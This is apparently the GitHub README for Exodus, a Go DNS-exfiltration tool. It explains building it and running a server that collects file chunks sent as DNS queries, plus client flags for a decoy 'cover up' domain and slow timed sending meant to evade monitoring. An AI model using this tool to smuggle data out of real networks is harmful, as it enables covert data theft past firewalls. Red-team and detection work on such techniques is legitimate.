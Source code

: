 ![Exodus](./logo.png)

[![Go Report Card](https://goreportcard.com/badge/github.com/cpl/exodus)](https://goreportcard.com/report/github.com/cpl/exodus)

DNS Exfiltration tool. By setting up a remote server listening for "DNS queries", we can bypass most firewall rules and monitoring.

This does not guarantee perfect stealth! A good network admin and setup will easily spot such traffic and flag it.

> Do not use for malicious or illegal purposes! Use at your own risk.

## Installing

### From source

1. Download the source code `git clone https://github.com/cpl/exodus.git`
2. Run the following: `make`, this will test everything, get dependencies and build the executables
3. Inside the folder `./out/`, you will see the server and client executables

### Releases page

> May not contain latest changes (some of which are bug fixes)!

1. Go to [Exodus Releases](https://github.com/cpl/exodus/releases) on GitHub
2. Download the binaries for your systems

### Using go get

1. `go get cpl.li/go/exodus/cmd/exodus-client`
2. `go get cpl.li/go/exodus/cmd/exodus-server`

## Usage

### Server

You can simply run it after installing it: `exodus-server`

This will run with the default port `53` and default data directory (tmp).

You can set `--port 1453` to something custom and `--data /var/exodus` to whatever you want. There is also a `-v` flag to display logging messages.

When the server will receive a "query" it will store it in the following structure:

`DATADIR/{token}/{count}.out`

For example sending a file in **4** chunks using the token **example** and the server configured with the default temp dir, will result in the following:

```text
/tmp/exodus/example/00000000.out
/tmp/exodus/example/00000001.out
/tmp/exodus/example/00000002.out
/tmp/exodus/example/00000003.out
```

From here you could do something as simple as: `cat * > full.out` to assemble it back.

### Client

The Exodus client **needs** the following flags:

* `--server dns.example.com`, this will be the address where YOU installed the Exodus Server
* `--target normaldomain.com`, this domain will be the "cover up", so set it to something realistic

Other optional flags are:

* `--file something.txt`, by default Exodus Client will use *stdin* as the input source
* `--size 16`, this is how many bytes to send per DNS query, the default is the max
* `--port 1453`, if you set the server to use something other than 53
* `--token example`, use different tokens for different "uploads", this will separate them server side
* `-v`, enables verbose logging
* `--timed 30`, will send 1 chunk every 30 seconds
